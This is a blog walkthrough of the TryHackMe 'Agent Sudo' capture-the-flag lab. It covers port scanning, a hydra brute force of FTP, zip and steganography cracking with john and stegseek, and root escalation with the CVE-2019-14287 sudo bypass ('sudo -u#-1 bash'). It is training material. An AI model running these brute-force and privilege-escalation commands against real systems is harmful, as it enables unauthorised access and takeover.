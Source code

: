 ```yaml
---
layout: post
title: Walkthrough - Agent Sudo
published: true
---
```


You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. 

![](/assets/agent-sudo01.png)

Enumerate/Exploit/Brute-Force/Hash-Cracking

* * *

## Enumerate

##   How many open ports?

- ``sudo nmap -sS -p- -T4 10.10.97.21 -vvv``
- ``sudo nmap -sC -sV -O -p21,22,80 10.10.97.21``

```shell
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

##   How you redirect yourself to a secret page?

- Changing the User-Agent header to C will let us see ``http://10.10.97.21/agent_C_attention.php`` where we get some more hints

> Attention chris,

> Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

> From,
> Agent R 

##   What is the agent name?

- Chris

* * * 

## Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

##   FTP password

- ``hydra -l chris -P /usr/share/seclists/Passwords/rockyou.txt 10.10.97.21 ftp``
- ``mget *.*``

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Agent-Sudo]
└─$ cat To_agentJ.txt                                                                                  
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

- ``binwalk -e cutie.png``
- ``unzip cutie.png``

##   Zip file password

- ``ssh2john 8702.zip > 8702.hash``
- ``john 8702.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

##   steg password

- steg is hiddin inside the other image
- ``stegseek cute-alien.jpg /usr/share/seclists/passwords/rockyou.txt``

```shell
cat cute-alien.jpg.out 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

##   Who is the other agent (in full name)?

- james  

##   SSH password

- hackerrules!

* * * 

## Hash cracking and brute-force

##   What is the user flag?

![](/assets/agent-sudo02.png)

##   What is the incident of the photo called?

- ``scp james@10.10.53.61:/home/james/Alien_autospy.jpg .``
- google reverse image search > images > upload an image
- foxnews
- Roswell alien autopsy

* * * 

## Privilege Escalation

- sudo -l gives us ``(ALL, !root) /bin/bash``
- linpeas give us 
- sudo -V give us 1.8.21p2
- [https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability](https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulnerability)
- ``sudo -u#-1 bash``

* * * 